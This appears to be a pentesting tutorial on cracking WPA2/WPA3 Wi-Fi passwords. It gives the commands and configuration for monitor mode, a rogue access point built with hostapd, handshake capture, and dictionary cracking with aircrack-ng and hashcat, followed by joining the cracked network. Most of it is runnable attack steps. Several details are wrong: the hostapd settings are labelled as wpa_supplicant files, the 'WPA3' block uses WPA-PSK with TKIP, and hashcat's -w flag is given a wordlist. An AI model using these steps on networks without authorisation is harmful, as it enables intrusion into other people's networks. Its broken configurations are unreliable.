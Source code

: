 ## Cracking WPA2/WPA3 Passwords Using a Fake Access Point[](#cracking-wpa2-wpa3-passwords-using-a-fake-access-point)

In this tutorial, we'll demonstrate how to set up a fake access point (AP), capture WPA2/WPA3 handshakes, and crack the passwords using tools like aircrack-ng and hashcat. We will also configure the AP to use WPA2 or WPA3 encryption.

Prerequisites

Ensure you have the following:

A wireless card that supports monitor mode.

The necessary tools: airmon-ng, airodump-ng, hostapd, aircrack-ng, hashcat, hcxpcapngtool, and a wordlist (e.g., /usr/share/wordlists/rockyou.txt).

Step-by-Step Process

1. Start Interface in Monitor Mode and Kill Unwanted Services

Start by disabling any services that might interfere with your network scanning, then put your wireless interface into monitor mode:

```bash
airmon-ng check kill && airmon-ng start wlan0
```

`airmon-ng check kill`: Stops interfering processes.

`airmon-ng start wlan0`: Puts the wireless interface wlan0 into monitor mode (wlan0mon).

#### 2. **Scan for Networks**[](#id-2.-scan-for-networks)

Next, scan for nearby wireless networks and capture data about them:

```bash
sudo airodump-ng wlan0mon -w capture1
```

- `airodump-ng`: Scans for nearby networks.
- `-w capture1`: Saves the capture data into a file named `capture1.cap`.

This command will display a list of nearby networks, and we will use this data to create a fake access point.

#### 3. **Create AP Based on Network Probes**[](#id-3.-create-ap-based-on-network-probes)

Using the data from the captured networks, create a `wpa_supplicant` configuration file to set up your fake AP. You can use either WPA2 or WPA3 configurations:

**Create your WPA Supplicant file:**

### We're creating the files

```bash
touch wpa2.conf wpa3.conf
```

WPA2 Configuration:

```bash
	network{
	interface=wlan1 #the other wireless interface available to us
	hw_mode=g
	channel=1
	driver=nl80211 #as used by all Linux OSs
	ssid=Name #name of the network
	auth_algs=1
	wpa=2
	wpa_key_mgmt=WPA-PSK
	wpa_passphrase=abc123123 #can be anything, but ensure it is minimum 8 in length
}
```

WPA3 Configuration:

```bash
network{
	interface=wlan0
	ssid=Mostar
	channel=1
	hw_mode=g
	ieee80211n=1
	wpa=3
	wpa_key_mgmt=WPA-PSK
	wpa_passphrase=ANYPASSWORD
	wpa_pairwise=TKIP
	rsn_pairwise=TKIP CCMP
	mana_wpaout=/home/kali/file.hccapx
}
```

#### 4. **Start the Fake Access Point**[](#id-4.-start-the-fake-access-point)

Use `hostapd` to start the fake access point with the configuration file you created:

```bash
hostapd -d <filename>.conf
```

- Replace `<filename>` with the name of the configuration file you created.

Once the AP is started, the handshake should be captured on the `airodump-ng` screen.

#### 5. **Crack the Captured Handshake**[](#id-5.-crack-the-captured-handshake)

After capturing the handshake, you can attempt to crack the password using `aircrack-ng` or `hashcat`.

**Cracking with aircrack-ng:**

```bash
sudo aircrack-ng <output_file>.cap -e <ESSID>
```

```bash
sudo aircrack-ng <output_file>.cap -e <ESSID> -w /usr/share/wordlists/rockyou.txt
```

- `<output_file>.cap`: The capture file containing the handshake.
- `<ESSID>`: The SSID of the target network.
- `-w /usr/share/wordlists/rockyou.txt`: Specifies the wordlist to use for the dictionary attack.

**Cracking with hashcat:**

Convert the capture file to the hashcat format:
```bash
    hcxpcapngtool -o <output_file>.hc22000 <output_file>.cap
```

Run hashcat to crack the password:
```bash
hashcat -m 22000 <output_file>.hc22000 -w /usr/share/wordlists/rockyou.txt
```

- `-m 22000`: Specifies the hash type (WPA/WPA2).
- `<output_file>.hc22000`: The converted file in hashcat format.

### Connect to the Wireless Network:[](#connect-to-the-wireless-network)

```bash
wpa_supplicant -c wpa.conf -i wlan0mon
```

Then open another terminal and request ip from the DHCP server:

```bash
sudo dhclient wlan0 -v
```

#### 6. **Conclusion**[](#id-6.-conclusion)

After following these steps, you've successfully set up a fake access point, captured a WPA2/WPA3 handshake, and cracked the password using `aircrack-ng` or `hashcat`. These methods simulate real-world attacks to test the strength of wireless networks.
